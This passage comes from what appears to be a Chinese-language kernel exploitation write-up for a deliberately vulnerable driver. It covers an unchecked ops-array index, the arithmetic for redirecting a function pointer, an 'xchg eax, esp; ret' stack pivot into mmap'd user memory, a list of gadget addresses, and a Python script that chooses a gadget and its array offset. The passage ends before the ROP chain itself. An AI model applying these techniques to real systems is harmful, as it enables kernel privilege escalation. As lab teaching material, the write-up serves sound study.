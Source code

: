 ```c
```

ops数组没有进行边界检查，用户提供的偏移量足够大就可以在用户空间或内核空间中访问任何内存地址。

### 2. 利用思路

在没有开启系统内核的地址随机化时，可以通过预先计算的偏移，执行内核空间中任意地址的代码。我们可以把`fn()`指向内核空间或mmap的用户空间存储地址。由反汇编代码可知，执行fn()是通过**call rax**来执行的，`rax`包含要执行的指令地址。我们可以提前计算这个地址，因为已知ops数组的基地址（在drv.ko运行时将打印出来）和用户传递的offset值。

例如，给定的ops基地址`0xffffffffaaaaaaaf`和`offset=0x6806288`，`fn`地址为`0xffffffffaaaaaaaf+8*0×6806288=0xffffffffdeadbeef`。反过来，可以计算出需要执行的内核目标地址相对ops数组的偏移值。

由于我们是在内核空间执行代码，并且无法把ROP链放到内核空间中，因此只能把ROP链放到用户空间，通过在内核空间找到合适的gadget（stack pivot），通过执行`call rax`将存放ROP链的堆栈从内核空间切换到用户空间。

### 3. Stack Pivot

我们可以在内核空间寻找到以下几种gadget：

```
mov %rsp, %r*x ; ret
mov %rsp, ... ; ret
xchg %r*x, %rsp ; ret
```

虽然我们的测试环境是64位，但是最后一个stack pivot使用32位寄存器，即`xchg %e*x, %esp;ret`或`xchg %esp, %e*x;ret`，我们在这里使用xchg eax, esp;ret`（**执行完指令后高32位都会被清0**）。如果`rax`包含有效的内核内存地址（例如`0xffffffff********`），则该stack pivot指令将`rax`的低32位（`0x********`为用户空间地址）设置为新的栈指针。

由于该`rax`值在执行fn()之前已知，所以我们知道新的用户空间栈将在哪里，通过mmap来申请为指定的用户空间。**这是进行ROP的第一步、也是关键的一步：`rax`表示了内核中gadget的地址，其低32位`eax`表示了一个用户空间地址**。

```bash
qemu$ grep ': xchg eax, esp ; ret' rop_gadgets.txt
0xffffffff81000085 : xchg eax, esp ; ret
0xffffffff8221a2be : xchg eax, esp ; ret 0
0xffffffff8155c3e4 : xchg eax, esp ; ret 0x103d
0xffffffff81023db9 : xchg eax, esp ; ret 0x10a8
0xffffffff817355a2 : xchg eax, esp ; ret 0x12eb
0xffffffff814a64bd : xchg eax, esp ; ret 0x148
0xffffffff81198589 : xchg eax, esp ; ret 0x148d
0xffffffff813e47a5 : xchg eax, esp ; ret 0x14c
0xffffffff810d7f38 : xchg eax, esp ; ret 0x14ff
```

注意：选择stack pivot gadget时，要8字节对齐（因为ops是8字节指针的数组，而且其基址是8字节对齐的），下面的脚本可以查找合适的gadget：

```python
rax = 0xffffffffa0002340
with open('xchg_eax_esp_addr.txt') as f:
    for line in f:
        data = line.split(':')
        addr = int(data[0].strip(),16)
        if addr % 8 ==0:
            #这里是负数，因此要转换为无符号数
            index = (addr-rax + 2**64)/8
            print('gadgets:{}'.format(line))
            print('gadgets addr:{}'.format(hex(addr)))
            print('array index:{}'.format(index))
            stack_new = addr & 0xffffffff
            print('stack new addr:{}'.format(hex(stack_new)))
            break

```
